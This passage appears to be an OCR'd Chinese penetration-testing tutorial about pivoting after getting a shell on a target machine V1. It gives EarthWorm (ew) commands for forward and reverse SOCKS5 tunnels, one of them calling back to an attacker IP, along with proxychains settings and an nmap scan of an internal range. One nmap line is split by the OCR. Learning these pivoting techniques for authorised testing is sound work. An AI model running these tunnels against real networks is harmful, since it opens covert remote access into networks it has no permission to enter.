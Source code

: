 获得V1的shell后，先下载ew，准备架设socks5，将流量代理本地。

这里可以选择两种方式：**正向代理**和**反向代理**。

**正向代理：**

假设目标机V1有公网IP（**139.x.x.x**），可以使用正向的方式代理流量。

在目标机V1上启动socks5服务并监听1080端口：

```bash
./ew -s ssocksd -l 1080
```

接着流量代理到139.x.x.x的1080端口，就相当于把流量代理到目标机V1了，就可以使用相关工具做进一步渗透。

A1上proxychains代理配置：

```bash
vi /etc/proxychains.conf
[ProxyList]
socks5    139.x.x.x    1080

```

**反向代理：**

由于场景中目标机V1没有公网IP，但是能访问公网。因为V1没有具体地址，无法使用正向连接，可使用反弹连接的方式代理流量。

在攻击机A1本地启动流量转发，将来自外部1080端口的流量转发到本地8888端口，并等待目标反弹连接：

```bash
./ew -s rcsocks -l 1080 -e 8888

```

在目标机V1上启动socks5服务，并反弹到攻击机A1的8888端口：

```bash
./ew -s rssocks -d 120.x.x.x -e 8888

```

代理通道架设完毕，访问A1的1080相当于访问V1的8888端口，在攻击机A1上使用proxychain将流量代理到本地1080端口，相当于把流量代理到目标机V1上了，在A1上发起请求相当于在V1上发起请求，然后可以使用相关工具做进一步渗透。

A1上proxychains代理配置：

```bash
[ProxyList]
socks5    127.0.0.1    1080

```

接下来借助V1进一步发现内网各段的机器，在A1上使用nmap扫描端口：

```bash
proxychains nmap -p xxx 

```

-sT -Pn -open 10.10.1.111/16
